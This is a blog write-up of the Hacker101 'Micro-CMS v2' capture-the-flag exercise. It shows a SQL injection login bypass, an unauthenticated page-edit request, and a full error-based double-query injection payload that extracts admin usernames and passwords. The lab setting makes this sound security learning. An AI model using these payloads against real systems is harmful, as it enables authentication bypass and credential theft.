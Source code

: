 ```yaml
---
title: 'Hackerone CTF: Micro-CMS v2'
excerpt: 'My experience with a harder-than-advertised sql injection ctf.'
coverImage: '/images/cover-images/hackerone-ctf-micro-cms-v2.jpg'
date: '2020-06-01'
ogImage:
  url: '/images/cover-images/hackerone-ctf-micro-cms-v2.jpg'
---
```

The other day, I subumitted a bug to hackerone and I noticed they had a [ctf section](https://www.hacker101.com/). They exercises so far are fun, pretty straight forward, and earn you invites to private bug bounty programs.

I wanted to detail my experience with their `Micro-CMS v2` ctf, the second and more advanced ctf following Micro-CMS v1, because it went from easy to what feels like advanced toot sweet. Where Micro-CMS v1 dealt mostly with XSS, v2 mostly deals with SQL injection.

## Finding Flag0
Unlike v1, any action besides viewing pages redirects you to a login page.
![IMG1](/images/hackerone-ctf-micro-cms-v2/one.gif)

If the login code used something like this to authenticate:

~~~SQL
SELECT * FROM users
WHERE name='%s'
and password='%s'
~~~

Then this would have worked...
![IMG2](/images/hackerone-ctf-micro-cms-v2/two.gif)

But it did not. And it's back to the drawing board.
![IMG3](/images/hackerone-ctf-micro-cms-v2/three.gif)

My first break came when I put a simple singular quote in the user name (`username='`) and submitted. It spit out the following error.
~~~Python
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
~~~

Now we know the query for authentication:
~~~SQL
SELECT password FROM admins WHERE username='%s'
~~~

And here's the statement that'll get authenticated:
~~~SQL
SELECT password FROM admins WHERE username='' or '0'='1' UNION ALL SELECT '1234'
~~~
![IMG4](/images/hackerone-ctf-micro-cms-v2/four.gif)
The `'0'='1'` negates the first select statement and instead returns the results of unioned select (`1234`) as the value of `password`. We have bypassed authentication and receive our Flag0.


## Finding Flag1
Now, as authorized users, we can edit pages. This is done via POST request on pages with urls like `/page/edit/1`. I did exactly that, then logged out, repeated the same request, having removed the cookie. And jackpot! Looks like the someone forgot to test auth in the edit page's post request logic.
![IMG5](/images/hackerone-ctf-micro-cms-v2/five.gif)


## Finding Flag2
If this was all there was, I don't think I would be writing this up. It's this next flag that was a real brain-wrinkler. The only hint given to us is this: `Credentials are secret, flags are secret. Coincidence?` So it looks like we need to acquire the login and the password.

The only data we can get from the database seems to be either an error when we create an faulty sql command, like the one that exposed the SQL, or when we attempt to log in. But even then we are either successful thru the UNION injection at which point we are redirected and get no information divulged, or 'Unknown user' or 'Invalid Password' when we try to login unsuccessfully.

So how do we retrieve the credentials?

#### Double Query Injection
They key to this technique is the `GROUP BY` modifier. When combined with the aggregate function like count(*) we produce a `Duplicate entry` error that outputs the data we select for.

This looks complicated, but let's make it easier to parse visually:
~~~SQL
' OR (
	SELECT 1 from (
		select count(*), 
		concat((SELECT username FROM admins LIMIT 0,1),'~~~',floor(rand(0)*2)) 
		 as c from information_schema.tables group by c
		) as a
	) 
AND '1' = '1
~~~

And lets break it down some more:
~~~SQL
concat((SELECT username FROM admins LIMIT 0,1),'~~~',floor(rand(0)*2)) 
~~~
This select statement is our payload, so to speak. You could even pass functions `SELECT database()` if you wanted discover other info. In this case, it'll retrieve our username, and one could increase to LIMIT 1,1 to get the username of the next row.

~~~SQL
as c from information_schema.tables group by c
~~~
`information_schema.tables` is used here because it will reliably have enough rows in it to trigger our duplication, we are not actually retrieving any data from this table

~~~SQL
) as a
~~~
`as a` alias is used because we get this error without it:` OperationalError: (1248, 'Every derived table must have its own alias')`

Feeding this string to the username param and POSTing it returns this error from the server:
![IMG6](/images/hackerone-ctf-micro-cms-v2/six.gif)

So here we have our login, `evalina`.

We do the same request except we change the column of the nested SELECT statement from `username` to `password`. Now we have our credentials, we log in, and the flag is ours.